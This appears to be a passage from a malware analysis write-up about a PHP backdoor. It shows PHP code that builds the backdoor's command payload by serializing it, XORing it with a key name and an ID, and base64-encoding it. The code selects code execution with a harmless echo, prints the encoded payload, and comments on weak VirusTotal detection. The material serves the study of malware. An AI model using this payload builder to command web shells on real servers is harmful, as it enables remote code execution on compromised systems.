   ------------------------------------------------------------------------------------
  \<?php\
  function repXOR(\$text, \$cipherKey){\
  \$xorStr = \"\";\
  for (\$x = 0; \$x \< strlen(\$text);){\
  for (\$i = 0; \$i \< strlen(\$cipherKey) && \$x \< strlen(\$text); \$i++, \$x++){\
   \$xorStr .= chr(ord(\$text\[\$x\]) \^ ord(\$cipherKey\[\$i\]));\
   }\
   }\
   return \$xorStr;\
  }\
  \
  \$payload = \[\
   // ID is required\
   \'ak\' =\> \'d4a8745e-2599-49bc-b7e3-2b194ca49aef\',\
   // show info\
  // \'a\' =\> \'i\',\
   // or execute code\
   \'a\' =\> \'e\',\
   \'d\' =\> \"echo \\\"Hi\\\";\"\
  \];\
  // set key name\
  \$payloadKeyName = \"payload\";\
  // set ID\
  \$payloadID = \"d4a8745e-2599-49bc-b7e3-2b194ca49aef\";\
  \
  // 1. Serialize it\
  \$payload = serialize(\$payload);\
  // 2. XOR with key name\
  \$payload = repXOR(\$payload, \$payloadKeyName);\
  // 3. XOR with ID\
  \$payload = repXOR(\$payload, \$payloadID);\
  // 4. base64 encode\
  \$finishedPayload = base64\_encode(\$payload);\

  ------------------------------------------------------------------------------------

Finished payload ready to be sent, executing "echo "Hi";"

  ----------------------------------------------------------------------------------------------------------------------------------------------------------------
  Array\
  (\
   \[payload\] =\> dW8rbiMmayd2aTg9enI3Yig5eCE3ITNsaTllOGkwLWFvLTUvZy4gNWE1dilmPGthaT40dDdtKWBlPzl7bDl3KHchfmFpPzdiP2N9Y2J+dnhjZidneH53d2hhIX12QH0KOlpjY280cw==\
  )\

  ----------------------------------------------------------------------------------------------------------------------------------------------------------------

VirusTotal was not amazing on this one, which can be understandable
based on hash recognition, but I had expected a tad more from the
heuristics.![](Pictures/1000020100000467000001DA209F377384B3DAEF.png){width="6.2709in"
height="2.639in"}
